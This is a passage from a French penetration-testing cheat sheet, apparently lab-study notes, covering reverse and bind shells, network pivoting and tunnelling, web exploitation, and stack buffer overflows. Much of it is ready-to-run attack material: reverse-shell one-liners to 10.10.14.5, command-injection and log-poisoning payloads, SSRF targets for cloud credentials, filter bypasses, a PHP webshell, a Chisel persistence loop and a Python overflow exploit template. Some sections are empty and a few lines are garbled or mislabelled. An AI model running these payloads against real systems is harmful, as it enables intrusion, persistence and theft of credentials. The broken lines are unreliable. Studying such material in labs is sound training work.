socat file:`tty`,raw,echo=0 tcp-listen:4444
# Cible :
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.5:4444

# --- SSL/TLS avec socat ---
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out cert.pem
socat OPENSSL-LISTEN:4444,cert=key.pem,key=key.pem,verify=0 STDOUT
socat - OPENSSL:10.10.14.5:4444,verify=0

# --- Bind shell avec socat ---
socat TCP-LISTEN:4444,reuseaddr,fork EXEC:/bin/bash
```

### 7.3 Comparaison rapide

| Caractéristique | Netcat | Socat |
|---|---|---|
| SSL/TLS natif | Non (ncat seulement) | Oui |
| PTY allocation | Non | Oui |
| Forking | Non (-k seulement) | Oui (fork) |
| UDP support | Oui | Oui |
| Facilité d'usage | Simple | Syntaxe complexe |

## 8. Pivoting & Tunneling — Vue d'ensemble

> Fiche détaillée : [[Techniques/Pivoting et Tunneling|Pivoting & Tunneling]]

### 8.1 Quand pivoter ?



### 8.2 Scénarios typiques



### 8.3 Tableau comparatif des outils de tunneling

| Outil | Protocole | SOCKS | Port Forward | Auth SSH | TLS | Facilité |
|---|---|---|---|---|---|---|
| **SSH** | SSH | Oui (-D) | Oui (-L/-R) | Oui | Oui | |
| **Chisel** | HTTP/TLS | Oui | Oui | Non | Oui | |
| **Ligolo-ng** | Custom | Oui | Oui | Non | Oui | |
| **Proxychains** | SOCKS | Oui | Non | Non | Non | |
| **sshuttle** | SSH | Oui | Non | Oui | Oui | |
| **Socat** | TCP/SSL | Non | Oui | Non | Oui | |
| **ncat relay** | TCP | Non | Oui | Non | Oui | |

---

## 9. SSH Tunnels

### 9.1 Local Port Forward (`-L`)

```bash
# Syntaxe : ssh -L <local_port>:<target>:<remote_port> <jump_host>

# Accéder à 10.0.0.5:80 via le serveur 10.10.10.10
ssh -L 8080:10.0.0.5:80 user@10.10.10.10
# → on visite http://127.0.0.1:8080

# Accéder à 192.168.1.50:3389 (RDP) via le serveur
ssh -L 13389:192.168.1.50:3389 user@10.10.10.10
# → rdesktop 127.0.0.1:13389

# Bind sur toutes les interfaces
ssh -L 0.0.0.0:8080:10.0.0.5:80 user@10.10.10.10

# Pas d'execution de commande (-N) + pas de résolution DNS (-n)
ssh -N -n -L 8080:10.0.0.5:80 user@10.10.10.10
```

### 9.2 Remote Port Forward (`-R`)

```bash
# Syntaxe : ssh -R <remote_port>:<local_target>:<local_port> <jump_host>

# Exposer notre port 4444 sur le serveur distant
ssh -R 4444:127.0.0.1:4444 user@10.10.10.10
# → quiconque sur 10.10.10.10:4444 est redirigé vers nous

# Exposer un port local vers un sous-réseau interne
ssh -R 8080:192.168.1.50:80 user@10.10.10.10
```

### 9.3 Dynamic Port Forward / SOCKS Proxy (`-D`)

```bash
# Créer un SOCKS proxy sur le port 1080
ssh -D 1080 user@10.10.10.10
# Puis utiliser avec proxychains :
proxychains nmap -sT -Pn 10.0.0.0/24
proxychains curl http://192.168.1.50
proxychains firefox

# Combinaison : SSH + tunnel SOCKS persistant
ssh -D 1080 -f -C -q -N user@10.10.10.10
# -f : background, -C : compression, -q : quiet, -N : no shell
```

### 9.4 Multi-hop / ProxyJump

```bash
# Méthode 1 : ProxyJump (SSH 7.3+)
ssh -J user@10.10.10.10 user@192.168.1.50
# → passe par 10.10.10.10 pour atteindre 192.168.1.50

# Méthode 2 : ProxyCommand (plus portable)
ssh -o ProxyCommand="ssh -W %h:%p user@10.10.10.10" user@192.168.1.50

# Méthode 3 : Config SSH multi-hop
# Ajouter dans ~/.ssh/config :
# Host jump
#     HostName 10.10.10.10
#     User user
# Host target
#     HostName 192.168.1.50
#     User user
#     ProxyJump jump

ssh target
```

### 9.5 SSH Config — modèle utile

```bash
# ~/.ssh/config
Host kali-jump
    HostName 10.10.10.10
    User user
    IdentityFile ~/.ssh/id_rsa
    DynamicForward 1080
    LocalForward 8080 192.168.1.50:80
    ServerAliveInterval 60
    ServerAliveCountMax 3
```

## 10. Chisel

> Fiche détaillée : [[Outils/Outil - Chisel|Chisel]]

### 10.1 Principe

Chisel est un tunnel TCP/UDP encodé en HTTP, écrit en Go. Un binaire unique pour le serveur et le client. Idéal quand SSH n'est pas disponible.

### 10.2 Installation

```bash
# Télécharger depuis GitHub releases
wget https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_linux_amd64.gz
gzip -d chisel_*.gz && chmod +x chisel
```

### 10.3 Setup classique — Reverse SOCKS

```bash
# --- Serveur (côté Kali) ---
./chisel server --port 8080 --reverse

# --- Client (côté machine compromise) ---
./chisel client 10.10.14.5:8080 R:socks
# → SOCKS5 sur 127.0.0.1:1080 du serveur Kali

# Utiliser avec proxychains :
proxychains nmap -sT -Pn 192.168.1.0/24
```

### 10.4 Forward local

```bash
# Exposer la BDD interne sur notre Kali
./chisel client 10.10.14.5:8080 127.0.0.1:3306:10.0.0.5:3306
# → accès à MySQL via localhost:3306
```

### 10.5 Reverse port forward

```bash
# Serveur :
./chisel server --port 8080 --reverse
# Client :
./chisel client 10.10.14.5:8080 R:8080:127.0.0.1:80
# → le port 8080 du serveur est redirigé vers le port 80 du client
```

### 10.6 TLS sur port 443

```bash
# Générer des certificats (lab)
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out cert.pem

# Serveur :
./chisel server --port 443 --reverse --tls --key key.pem --cert cert.pem

# Client :
./chisel client https://10.10.14.5:443 R:socks
# → passe souvent inaperçu (ressemble au HTTPS)
```

### 10.7 Resource script pour persistance

```bash
# Créer un script start_chisel.sh sur la cible :
#!/bin/bash
while true; do
    ./chisel client 10.10.14.5:8080 R:socks
    sleep 10
done
```

---

## 11. Ligolo-ng

> Fiche détaillée : [[Outils/Outil - Ligolo-ng|Ligolo-ng]]

### 11.1 Principe

Ligolo-ng est un outil de tunneling réseau utilisant un agent tun/tap. Il crée une interface réseau virtuelle sur la machine d'attaque, permettant de router le trafic vers le réseau interne de la cible sans SOCKS proxy ni ProxyChains.

### 11.2 Setup

```bash
# --- Serveur (Kali) ---
# Télécharger proxy et agent depuis GitHub
# Lancer le proxy :
./proxy -selfcert -laddr 0.0.0.0:11601

# --- Agent (machine compromise) ---
# Lancer l'agent :
./agent -connect 10.10.14.5:11601 -ignore-cert
```

### 11.3 Configuration de l'interface et du routing

```bash
# Dans l'interface ligolo-ng (tty interface) :
>> session                   # sélectionner la session
>> ifconfig                  # voir l'IP de l'agent
>> start                     # démarrer le tunnel

# Sur Kali (en root) :
sudo ip tuntap add user $(whoami) mode tap ligolo
sudo ip link set ligolo up
sudo ip route add 192.168.1.0/24 dev ligolo
# → tout le trafic vers 192.168.1.0/24 passe par le tunnel

# Vérifier :
ip route show
ping 192.168.1.50
```

### 11.4 Utilisation

```bash
# Une fois le tunnel actif, tous les outils fonctionnent directement :
nmap -sT 192.168.1.0/24        # scan sans proxychains
ssh user@192.168.1.50           # SSH direct
crackmapexec smb 192.168.1.0/24  # enum AD direct
```

### 11.5 Avantages par rapport à Chisel/SSH

| Caractéristique | Ligolo-ng | Chisel | SSH SOCKS |
|---|---|---|---|
| Interface réseau virtuelle | Oui (tap) | Non (SOCKS) | Non (SOCKS) |
| Besoin de proxychains | Non | Oui | Oui |
| Support UDP | Oui | Non | Non |
| Fonctionne sans SSH | Oui | Oui | Non |
| Multi-threads | Oui | Non | N/A |

## 12. Proxychains & SOCKS

### 12.1 Configuration

```bash
# /etc/proxychains4.conf (ou /etc/proxychains.conf)

# Types de proxy :
# socks4  127.0.0.1 1080      # SOCKS4 (pas de DNS remote)
# socks5  127.0.0.1 1080      # SOCKS5 (supporte DNS remote)
# http    127.0.0.1 8080      # HTTP proxy

# Configuration type :
strict_chain           # tous les proxies doivent être actifs
# dynamic_chain       # ignore les proxies morts
# random_chain        # aléatoire
proxy_dns              # résolution DNS via le proxy (recommandé avec socks5)
[ProxyList]
socks5 127.0.0.1 1080
```

### 12.2 SOCKS4 vs SOCKS5

| Caractéristique | SOCKS4 | SOCKS5 |
|---|---|---|
| Protocole | TCP uniquement | TCP + UDP |
| Authentification | Non | Oui (username/password) |
| Résolution DNS | Locale | Locale ou distante |
| IPv6 | Non | Oui |
| Usage recommandé | Simple TCP | Préférable |

### 12.3 Scanner à travers le proxy

```bash
# IMPORTANT : seul le scan TCP connect fonctionne via SOCKS
proxychains nmap -sT -Pn -p 22,80,443,445,3389 192.168.1.0/24

# Ne PAS utiliser :
# nmap -sS via proxychains (SYN scan impossible à travers SOCKS)

# Curl
proxychains curl http://192.168.1.50

# Metasploit avec proxychains
proxychains msfconsole
# Puis dans msf : setg Proxies socks5:127.0.0.1:1080
```

### 12.4 Limitations

- Pas de UDP via SOCKS (scan `-sU` impossible)
- Scan SYN (`-sS`) impossible — utiliser `-sT` uniquement
- Certains outils ne respectent pas la config proxychains
- Performance réduite (latence supplémentaire)
- Le scan `-O` (OS detection) peut échouer

---

## 13. Meterpreter Routing

### 13.1 Autoroute

```bash
# Dans la session meterpreter :
run autoroute -s 10.0.0.0/24     # ajouter une route
run autoroute -p                  # lister les routes

# Dans msfconsole (en dehors de meterpreter) :
route add 10.0.0.0 255.255.255.0 1   # via session 1
route print                           # lister les routes

# Tous les modules msf visent maintenant 10.0.0.x via la session 1
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.0.0.5
set RPORTS 22,80,445,3389
exploit
```

### 13.2 Port Forwarding avec Meterpreter

```bash
# Dans meterpreter :
portfwd add -l 8080 -p 80 -r 10.0.0.5       # forward local
portfwd add -l 3389 -p 3389 -r 192.168.1.50  # RDP forward
portfwd list                                   # lister les forwards
portfwd delete -l 8080 -p 80 -r 10.0.0.5     # supprimer
portfwd flush                                  # tout supprimer
```

### 13.3 SOCKS Proxy via Meterpreter

```bash
# Méthode 1 : autoroute + msf
run autoroute -s 10.0.0.0/24
# Puis dans msfconsole :
use auxiliary/server/socks_proxy
set SRVPORT 1080
set VERSION 5
run -j
# → SOCKS5 sur 1080, puis proxychains

# Méthode 2 : autoroute + socat
run autoroute -s 10.0.0.0/24
# Dans msfconsole :
use auxiliary/server/socks_proxy
set SRVPORT 1080
exploit -j
```

---

## 14. Autres techniques de tunneling

### 14.1 sshuttle

```bash
# sshuttle : tunnel VPN-like via SSH (pas besoin de SOCKS)
sudo apt install sshuttle

# Route tout le trafic vers le subnet interne
sshuttle -r user@10.10.10.10 192.168.1.0/24

# Avec SSH keys
sshuttle -r user@10.10.10.10 192.168.1.0/24 --ssh-cmd "ssh -i key.pem"

# DNS inclus
sshuttle --dns -r user@10.10.10.10 192.168.1.0/24
```

### 14.2 ncat relay

```bash
# Créer un relay entre deux ports avec ncat
# Sur la machine pivot (10.10.10.10) :
ncat -l -p 8080 --sh-exec "ncat 192.168.1.50 80"
# → tout trafic vers 10.10.10.10:8080 est relayé vers 192.168.1.50:80
```

### 14.3 DNS Tunneling (introduction)

```bash
# Utiliser dnscat2 pour tunneler du trafic via DNS
# Serveur (Kali) :
dnscat2-server example.com

# Client (machine compromise) :
# dnscat2.exe example.com
# → crée un tunnel TCP via les requêtes DNS

# Limites : lent, détection possible, payload volumineux
```

### 14.4 ICMP Tunneling (introduction)

```bash
# Utiliser ptunnel ou icmpsh pour tunneler via ICMP
# Serveur (Kali) :
ptunnel -lp 8080 -da 192.168.1.50 -dp 22

# Client (machine pivot) :
ptunnel -p 10.10.14.5

# → SSH à travers ICMP (ping)
```

## 15. Exploitation Web — Méthode

### 15.1 Positionnement

L'exploitation web couvre les failles dans les applications web (accessibles via HTTP/HTTPS). Elle intervient après la **reconnaissance** de la cible web (répertoires, technologies, endpoints).

### 15.2 Workflow typique



### 15.3 Outils d'analyse web

```bash
# Fuzzing de répertoires
feroxbuster -u http://10.10.10.10 -w /usr/share/seclists/Discovery/Web-Content/common.txt
dirb http://10.10.10.10 /usr/share/wordlists/dirb/common.txt

# Détection de technologies
whatweb http://10.10.10.10
wappalyzer  # extension navigateur

# Spider / crawl
gobuster dir -u http://10.10.10.10 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt

# Enumération de sous-domaines
gobuster dns -d example.com -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

---

## 16. Injection de commandes

> Fiche détaillée : [[Techniques/Injection de commandes|Injection de commandes]]

### 16.1 Techniques d'injection

| Syntaxe | OS cible |
|---|---|
| `; ls` | Linux / Windows |
| `\| ls` | Linux / Windows |
| `&& ls` | Linux / Windows |
| `|| ls` | Linux / Windows |
| `` `ls` `` | Linux / Windows |
| `$(ls)` | Linux |
| `& ls &` | Windows CMD |

### 16.2 Contournement de filtres

| Filtre | Bypass |
|---|---|
| Espaces interdits | `$IFS`, `${IFS}`, `%09`, `{cmd,arg}` |
| `cat` interdit | `ca\t`, `c'a't`, `c"a"t`, `c`at`, `head`, `tail`, `less`, `more` |
| `flag` interdit | `fla?`, `fla*`, `fla[g]` |
| `/bin/sh` interdit | `/bi'n'/sh`, `bash`, `/dev/tcp/...` |
| `wget` interdit | `curl`, `python -c`, `perl -e` |
| Mots-clés bloqués | `$(IFS)` ou `$$` pour le PID |

### 16.3 Exemples concrets

```bash
# Injection dans un ping
; whoami
; cat /etc/passwd
; id

# Reverse shell via injection
; bash -i >& /dev/tcp/10.10.14.5/4444 0>&1

# Injection dans un paramètre URL
http://target.com/page.php?cmd=whoami
http://target.com/page.php?cmd=;cat+/etc/passwd

# Injection dans un header
User-Agent: $(cat /etc/passwd)
Referer: `whoami`
```

### 16.4 Détection

- Tester avec des caractères spéciaux : `;`, `|`, `&&`, `` ` ``, `$()``
- Observer les réponses pour des erreurs système ou des résultats d'exécution
- Utiliser des payloads de timing : `; sleep 5` ou `; ping -c 5 10.10.14.5`

---

## 17. Injection SQL

> Fiche détaillée : [[Techniques/Injection de commandes|Injection SQL]]

### 17.1 Types d'injection SQL

| Type | Principe | Exemple |
|---|---|---|
| **In-band (UNION)** | Résultats directement dans la page | `' UNION SELECT 1,2,3--` |
| **Blind (boolean)** | Réponse binaire (vrai/faux) | `' AND 1=1--` vs `' AND 1=2--` |
| **Blind (time-based)** |延迟 de réponse | `' AND SLEEP(5)--` |
| **Error-based** | Erreurs SQL qui affichent des données | `' AND extractvalue(1,0x01)--` |
| **Out-of-band** | Données exfiltrées via DNS/HTTP | `' UNION SELECT load_file(...)--` |

### 17.2 Workflow d'exploitation

```bash
# 1. Identifier le nombre de colonnes
' ORDER BY 1--
' ORDER BY 2--
...
' ORDER BY N--  → error au N+1

# 2. Trouver les colonnes affichées (UNION)
' UNION SELECT NULL,NULL,NULL--  (même nombre que N)

# 3. Remplacer les NULL par des données
' UNION SELECT NULL,username,password FROM users--
' UNION SELECT NULL,table_name,NULL FROM information_schema.tables--
' UNION SELECT NULL,column_name,NULL FROM information_schema.columns WHERE table_name='users'--

# 4. Contournements
'/**/UNION/**/SELECT/**/NULL,NULL,NULL--      # espace remplacé par comment
'/**/UNION/**/SELECT/**/NULL,NULL,NULL--#     # commentaire alternatif
%27%20UNION%20SELECT%20NULL--                   # URL encoding
```

### 17.3 sqlmap — automatisation

```bash
# Détecter l'injection
sqlmap -u "http://target.com/page?id=1" --batch

# Enumération complète
sqlmap -u "http://target.com/page?id=1" --dbs --batch
sqlmap -u "http://target.com/page?id=1" -D mydb --tables --batch
sqlmap -u "http://target.com/page?id=1" -D mydb -T users --dump --batch

# POST data
sqlmap -u "http://target.com/login" --data="user=admin&pass=test" --batch

# Avec cookies/auth
sqlmap -u "http://target.com/page?id=1" --cookie="session=abc123" --batch

# Shell interactif
sqlmap -u "http://target.com/page?id=1" --os-shell

# Avec tamper scripts
sqlmap -u "http://target.com/page?id=1" --tamper=space2comment,between --batch
```

## 18. SSRF (Server-Side Request Forgery)

> Fiche détaillée : [[Techniques/SSRF|SSRF]]

### 18.1 Types de SSRF

| Type | Description | Exemple |
|---|---|---|
| **Réflexif** | La réponse est visible directement | `url=http://169.254.169.254/latest/meta-data/` |
| **Blind** | Pas de réponse visible, utiliser le timing | `url=http://internal-host:80` + observe le timeout |

### 18.2 Cibles classiques de SSRF

```bash
# Cloud Metadata (AWS)
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/
http://169.254.169.254/latest/user-data/

# Cloud Metadata (GCP)
http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token

# Services internes
http://localhost:22        # SSH (banner)
http://localhost:3306      # MySQL
http://localhost:6379      # Redis
http://localhost:8080      # Tomcat
http://localhost:9200      # Elasticsearch
http://127.0.0.1/admin     # Admin panels
```

### 18.3 Contournements de filtres SSRF

| Filtre | Bypass |
|---|---|
| `localhost` interdit | `127.0.0.1`, `0.0.0.0`, `[::1]`, `0177.0.0.1` (octal) |
| `169.254.169.254` interdit | `2852039166` (décimal), `0x a9fe:a9fe` (hex) |
| `http://` requis | `file:///etc/passwd`, `gopher://`, `dict://` |
| Protocole interdit | `file://` pour lire des fichiers locaux |
| `@` dans URL | `http://attacker.com@169.254.169.254` |
| Double encoding | `%2568%2574%2574%2570` pour `http` |

### 18.4 Exploitation avancée

```bash
# Lecture de fichiers locaux
?url=file:///etc/passwd
?url=file:///proc/self/environ

# Port scanning interne
?url=http://127.0.0.1:22    (réponse = banner SSH)
?url=http://127.0.0.1:80    (réponse = page web)
?url=http://127.0.0.1:3306  (réponse = MySQL error)

# Gopher protocol (pour attaquer Redis, MySQL, etc.)
?url=gopher://127.0.0.1:6379/_SET%20pwned%20true%0D%0A

# Escalade via SSRF → RCE
# 1. Lire les credentials IAM depuis le metadata
# 2. Utiliser les credentials pour accéder à S3/RDS
```

---

## 19. LFI & RFI

> Fiche détaillée : [[Techniques/LFI - Local File Inclusion|LFI]]

### 19.1 LFI classique

```bash
# Inclusion basique
?page=../../../../etc/passwd
?page=....//....//....//....//etc/passwd    # double encoding

# Windows
?page=..\..\..\..\windows\system32\drivers\etc\hosts
?page=C:\\windows\\system32\\config\\sam
```

### 19.2 Wrappers PHP

```php
// PHP filters (lecture de code source)
?page=php://filter/convert.base64-encode/resource=config.php
// → décode le base64 pour obtenir le code source

// PHP input
?page=php://input
// POST body : <?php system('whoami'); ?>

// Data URI
?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCd3aG9hbWknKTsgPz4=

// Expect (si activé)
?page=expect://whoami
```

### 19.3 Contournement de filtres LFI

| Filtre | Bypass |
|---|---|
| `../` interdit | `..%2f`, `..%252f`, `....//` |
| `etc/passwd` interdit | `et%63/pa%73swd`, `/etc/passwd` (avec null byte sur PHP < 5.3.4) |
| Null byte (PHP ancien) | `../../../../etc/passwd%00` |
| Extension ajoutée | `../../../../etc/passwd%00.jpg` |

### 19.4 Log poisoning

```bash
# 1. Injecter du PHP dans un log
# Via User-Agent :
curl -A "<?php system(\$_GET['cmd']); ?>" http://target.com/
# Via Referer :
curl -H "Referer: <?php system(\$_GET['cmd']); ?>" http://target.com/

# 2. Inclure le log
?page=/var/log/apache2/access.log&cmd=whoami
?page=/var/log/nginx/access.log&cmd=id

# 3. Reverse shell
?page=/var/log/apache2/access.log&cmd=bash+-i+>%26+/dev/tcp/10.10.14.5/4444+0>%261
```

### 19.5 RFI (Remote File Inclusion)

```bash
# Inclusion de fichier distant
?page=http://10.10.14.5/shell.txt
?page=http://10.10.14.5/shell.txt%00

# Conditions :
# - allow_url_include = On (php.ini)
# - allow_url_fopen = On (php.ini)
```

---

## 20. Upload de fichiers

### 20.1 Techniques de bypass d'extension

| Filtrage | Bypass |
|---|---|
| `.php` interdit | `.php3`, `.php4`, `.php5`, `.php7`, `.phtml`, `.pht`, `.phps` |
| `.php` interdit | `.PhP`, `.pHp` (si filtre case-insensitive) |
| Extension spécifique requise | `shell.php.jpg`, `shell.php%00.jpg` (null byte, PHP < 5.3.4) |
| Doble extension | `shell.php.jpg` (si Apache traite la première extension) |

### 20.2 Contournement `.htaccess`

```apache
# Créer un fichier .htaccess :
AddType application/x-httpd-php .jpg

# Uploader un fichier shell.jpg contenant du PHP
# → Apache interprète .jpg comme PHP
```

### 20.3 Bypass de content-type

```http
# Modifier le Content-Type dans la requête
Content-Type: image/jpeg

# Ou renommer avec une extension image
# Puis vérifier le Magic Bytes (JPG : FF D8 FF E0)
```

### 20.4 Webshell PHP minimale

```php
<?php
if(isset($_GET['cmd'])){
    echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
}
?>
<!-- Utilisation : shell.php?cmd=whoami -->
```

## 21. Buffer Overflow — Vue d'ensemble

> Fiche détaillée : [[Techniques/Buffer Overflow|Buffer Overflow]]

> [!warning] **Contexte**
> Exploitation "classique" sur binaire 32-bit avec **stack executable** (pas de ASLR/NX pour la démo).
> En réel : il faut les protections (DEP/ASLR/Stack Canaries) + ROP. Ici on apprend le **fond**.

### 21.1 Définition

Un buffer overflow survient lorsqu'un programme écrit des données au-delà de la taille allouée pour un buffer, écrasant ainsi des zones mémoire adjacentes. L'objectif est de rediriger l'exécution du programme vers un code arbitraire.

### 21.2 Types de Buffer Overflow

| Type | Zone mémoire | Difficulté | Protections à contourner |
|---|---|---|---|
| **Stack overflow** | Pile (retour de fonction) | Moyenne | DEP, Stack Canaries, ASLR |
| **Heap overflow** | Tas (données dynamiques) | Élevée | DEP, ASLR, Heap Guard |
| **SEH overwrite** | Structured Exception Handler (Windows) | Moyenne | SafeSEH, ASLR |
| **Format string** | Utilisation de printf incorrecte | Moyenne | ASLR |
| **Integer overflow** | Valeur entière débordante | Moyenne | Dépend du contexte |

### 21.3 Mécanisme d'un stack buffer overflow



### 21.4 Stack layout (32-bit x86)

```
|-------------------| Adresse haute
|  Arguments        |
|-------------------|
|  Return Address   | ← EIP pointe ici après le RET
|-------------------|
|  Saved EBP        |
|-------------------|
|  Buffer local     | ← début du buffer
|-------------------| Adresse basse
```

### 21.5 Détection & outils

```bash
# Vérifier les protections d'un binaire
checksec --file=vuln
# Ou avec pwn checksec
pwn checksec vuln

# Fuzzer basique
python3 -c 'print("A"*1000)' > payload.txt
(cat payload.txt; cat) | ./vuln

# Générer un pattern d'exploitation
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000
```

---

## 22. BO — Stack Overflows

### 22.1 Étapes détaillées

```bash
# Étape 1 : Crash et contrôle d'EIP
python3 -c 'print("A"*2000)' > payload.txt
(cat payload.txt; cat) | ./vuln
# → on observe le crash, on note la taille (ex: 2000 provoque le crash)

# Étape 2 : Déterminer l'offset exact avec pattern
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000 > pattern
(cat pattern; cat) | ./vuln
# → récupérer la valeur d'EIP depuis le crash (ex: 0x41366241)
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x41366241
# → offset ex: 524

# Étape 3 : Bad characters
# Toujours inclure \x00 (null byte)
# Tester d'autres characters problématiques :
badchars = "\x00\x0a\x0d\xff"
# Utiliser mona.py pour générer et comparer :
# !mona bytearray -b "\x00\x0a\x0d\xff"
# Envoyer le bytearray, puis :
# !mona compare

# Étape 4 : Trouver un JMP ESP ou CALL ESP
# Dans Immunity Debugger avec mona.py :
# !mona jmp -r esp -m "essfunc.dll"
# → choisir une adresse sans ASLR (ex: 0x080414c3)
```

### 22.2 Exploit final — template Python

```python
import socket
import struct

target = "192.168.1.20"
port = 9999

offset = 524
jmp_esp = struct.pack("<I", 0x080414c3)

# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f python -b "\x00\x0a\x0d"
shellcode = b"\xfc\x48\x83\xe4\xf0\xe8..."
nop_sled = b"\x90" * 16

payload = b"A" * offset + jmp_esp + nop_sled + shellcode
payload += b"\x90" * (2000 - len(payload))  # padding

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target, port))
s.recv(1024)
s.send(payload)
s.close()
```

### 22.3 SEH (Structured Exception Handler)

```bash
# Lorsque le programme gère les exceptions, on peut écraser le SEH
# Layout de la stack avec SEH :
# |-------------------|
# |  buffer           | ← overflow
# |-------------------|
# |  nSEH             | → 4 octets (Next SEH)
# |-------------------|
# |  SEH              | → 4 octets (pointeur vers handler)
# |-------------------|

# Techniques :
# 1. Trouver l'offset vers nSEH (pattern_create)
# 2. Trouver un POP POP RET (PPR) dans un module sans ASLR
#    !mona modules
#    !mona ppr -m "essfunc.dll"
# 3. nSEH = \xeb\x06\x90\x90  (JMP short +6, NOP, NOP)
# 4. SEH = adresse du PPR
# 5. Après le RET du PPR → shellcode dans le buffer
```

### 22.4 Format String

```bash
# Quand printf(buffer) est utilisé sans format
# Lecture de la stack :
./vuln "%x.%x.%x.%x.%x.%x"
# → dump les valeurs de la stack

# Écriture arbitraire (adresse à écraser) :
# Utiliser %n pour écrire le nombre d'octets affichés
./vuln $(python3 -c 'print("\x08\x04\x14\xc3" + "%100x%12$n")')

# Utiliser des tools :
# pwntools : fmtstr_payload(offset, {addr: val})
# GDB : geexploit
```

---

## 23. BO — Protections & Contournement

### 23.1 Protections modernes

| Protection | Description | Contournement |
|---|---|---|
| **DEP/NX** | Stack non-exécutable | ROP, ret2libc, ret2plt |
| **ASLR** | Adresses mémoire aléatoires | Leak d'adresse, bruteforce (32-bit) |
| **Stack Canaries** | Canary value avant le retour | Leak du canary, bruteforce |
| **PIE** | Binaire chargé à des adresses aléatoires | Leak d'adresse du binaire |
| **RELRO** | GOT (Global Offset Table) en lecture seule | Partial RELRO → GOT overwrite |

### 23.2 Contournement DEP/NX — ret2libc

```bash
# Rediriger vers une fonction de libc (ex: system("/bin/sh"))
# 1. Trouver l'adresse de system() dans libc
# 2. Trouver un "/bin/sh" dans libc
# 3. Trouver un gadget POP ESI; RET (pour aligner la stack)

# Structure de l'exploit :
# | A * offset | addr_system | addr_ret_gadget | addr_bin_sh |
```

### 23.3 Contournement DEP/NX — ROP

```bash
# Chaîner des gadgets (fragments de code existants)
# Trouver des gadgets :
ROPgadget --binary vuln --ropchain
ROPgadget --binary vuln --only "pop|ret"

# Utiliser pwntools pour générer la chaîne ROP :
from pwn import *
p = process('./vuln')
rop = ROP(p)
rop.call('system', [next(p.libc.search(b'/bin/sh'))])
```

### 23.4 Contournement ASLR

```bash
# Méthode 1 : Leak d'adresse
# Utiliser un format string pour lire les adresses chargées

# Méthode 2 : Bruteforce (32-bit seulement)
# Les 8 bits bas sont souvent fixes, reste 24 bits = 16M de tentatives
# Avec processus relancé à chaque tentative

# Méthode 3 : Ret2PLT
# Utiliser les adresses des fonctions PLT (Position Independent Executable)
# qui sont fixes même avec ASLR
```

### 23.5 Contournement des Stack Canaries

```bash
# Méthode 1 : Leak du canary (format string ou buffer partiel)
# Méthode 2 : Bruteforce byte par byte (1 byte = 256 essais)
# Méthode 3 : Attaque via un autre thread (le canary est le même pour tous les threads)

# Détecter les canaries :
checksec --file=vuln
# output : Stack: Canary found
```

## 24. BO — Exercices & Lab

### 24.1 OverTheWire — Narnia

| Niveau | Vulnérabilité | Compétence travaillée |
|---|---|---|
| Narnia 0 | Buffer overflow basique | Écrasement de variable |
| Narnia 1 | Buffer overflow → shell | Écrasement de return address |
| Narnia 2 | Shellcode injection | NOP sled + shellcode |
| Narnia 3 | Restriction d'opcode | Shellcode ASCII-only |
| Narnia 4 | Format string | Lecture/écriture mémoire |
| Narnia 5 | Buffer overflow avancé | Techniques combinées |

```bash
# Connexion
ssh narnia0@narnia.labs.overthewire.org -p 2222
# Mot de passe : narnia0
```

### 24.2 Protostar (exploit.education)

| Niveau | Vulnérabilité | Compétence |
|---|---|---|
| Stack 0 | Variable overwrite | Comprendre la stack |
| Stack 1 | Variable overwrite + conversion | little endian |
| Stack 2 | Retour de fonction | Contrôle EIP |
| Stack 3 | Fonction pointée | Appel de fonction |
| Stack 4 | Return to function | Écrasement précis |
| Stack 5 | Shellcode | Injection de code |
| Stack 6 | Restricted return | Contournements |
| Stack 7 | Write-what-where | Écriture mémoire |
| Stack 8 | Net inject | Overwrite GOT |

### 24.3 Machines virtuelles recommandées

| VM | Plateforme | Focus | Difficulté |
|---|---|---|---|
| **VulnHub - Brainstorm** | Linux | Metasploit + pivoting | Moyen |
| **VulnHub - Gatekeeper** | Linux | Exploitation + priv esc | Moyen |
| **TryHackMe - Buffer Overflow Prep** | Linux | BO step-by-step | Facile-Moyen |
| **TryHackMe - Ice** | Windows | Metasploit + BO | Moyen |
| **TryHackMe - Blue** | Windows | EternalBlue | Facile |
| **HackTheBox - Brainfuck** | Linux | Web + priv esc | Moyen |
| **VulnHub - Kioptrix L1-L5** | Linux | Multi-techniques | Facile-Moyen |

### 24.4 Méthode de travail

```bash
# 1. Étudier le binaire
file vuln
checksec --file=vuln
strings vuln
objdump -d vuln

# 2. Fuzzing pour trouver le crash
python3 -c 'print("A"*1000)' > payload.txt
(cat payload.txt; cat) | ./vuln

# 3. Trouver l'offset (pattern_create + pattern_offset)

# 4. Identifier les bad characters

# 5. Trouver un gadget (JMP ESP, PPR, etc.)

# 6. Construire l'exploit

# 7. Tester et itérer
```

---

## 25. Exploitation sans Metasploit

### 25.1 Génération de shellcode

```bash
# Avec msfvenom mais sans Metasploit
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f python
# → copier le shellcode généré dans le script Python

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f python
msfvenom -p linux/x64/exec CMD="/bin/bash" -f python
```

### 25.2 Template pwntools

```python
from pwn import *

# Configuration
context.arch = 'amd64'
context.os = 'linux'
target = remote('192.168.1.20', 9999)    # ou process('./vuln')

# Shellcode
shellcode = asm(shellcraft.sh())
# ou avec reverse shell :
shellcode = asm(shellcraft.cat('/etc/passwd'))

# Buffer overflow
offset = 524
jmp_esp = 0x080414c3

payload = flat(
    b"A" * offset,
    p32(jmp_esp),
    asm(nop()) * 16,
    shellcode
)

